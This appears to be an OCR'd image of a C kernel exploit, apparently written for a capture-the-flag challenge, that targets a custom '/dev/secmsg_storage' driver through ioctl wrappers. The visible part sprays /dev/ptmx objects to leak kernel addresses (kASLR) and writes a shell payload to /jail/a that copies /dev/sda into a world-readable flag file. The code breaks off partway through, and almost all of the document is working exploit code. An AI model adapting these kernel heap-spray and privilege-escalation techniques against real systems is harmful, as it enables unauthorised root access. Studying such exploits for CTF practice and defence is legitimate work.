 ```c
        err_exit(1, "CMD_ADD_MESSAGE");
    return args.idx;
}

void read_secmsg(uint32_t idx, char *buf, uint32_t len) {
    params_t args = {
        .idx = idx,
        .buf = buf,
        .len = len
    };
    args.buf = buf;
    args.len = len;
    ioctl(fd, CMD_READ_MESSAGE, &args);
}

void delete_secmsg(uint32_t idx) {
    params_t args = {
        .idx = idx
    };
    if (ioctl(fd, CMD_DELETE_MESSAGE, &args) < 0)
        err_exit(1, "CMD_DELETE_MESSAGE");
}

int main() {
    params_t args;
    uint64_t kaslr_leak, kaslr_base, heap_leak_1, heap_leak_2, q1;
    char buf[0x500] = {0};
    char buf2[0x500] = {0};
    char buf3[0x1000] = {0};
    int victim_idx, leak_idx;
    int found = 0;
    int ss[2];

    memset(buf, 0x41, sizeof(buf));
    memset(buf3, 0x43, sizeof(buf3));

    fd = open("/dev/secmsg_storage", O_RDONLY);
    if (fd < 0)
        err_exit(1, "open");

    if (socketpair(AF_UNIX, SOCK_STREAM, 0, ss) < 0)
            err_exit(1, "[-] socketpair 1");

    puts("lesgo");

    /*
        Write payload to file
    */
    system("echo -e '#!/bin/sh\ncat /dev/sda > /jail/flag\nchmod 666 /jail/flag' > /jail/a; chmod +x /jail/a");

    /*
        Leak kASLR
    */
    for (int i = 0; i < 20; i++)
        open("/dev/ptmx", O_RDWR | O_NOCTTY);

    leak_idx = add_secmsg(buf, 600, 1001);

    for (int i = 20; i < 40; i++)
        open("/dev/ptmx", O_RDWR | O_NOCTTY);

    read_secmsg(leak_idx, buf2, 0x400 - 44);
```